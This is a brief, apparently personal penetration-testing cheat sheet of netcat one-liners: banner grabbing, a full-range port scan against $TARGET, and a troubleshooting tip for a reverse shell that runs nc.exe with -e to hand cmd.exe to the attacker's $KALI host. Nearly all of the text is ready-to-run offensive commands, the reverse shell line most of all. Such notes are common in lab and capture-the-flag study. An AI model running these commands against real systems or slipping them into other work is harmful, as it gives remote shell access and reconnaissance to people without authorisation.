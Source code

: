 Banner grabbing
```bash - kali
echo "" | nc -vv -n -w1 $TARGET $PORT
```
#### NC port scanner
```bash
nc -v -n -w2 -z $TARGET 1-65535 2>&1 | grep succeeded
```
#### Rev Shell stuck
If stuck on: `Connection received`, add the -e option:
```
nc.exe $KALI $PORT -e C:\Windows\System32\cmd.exe
```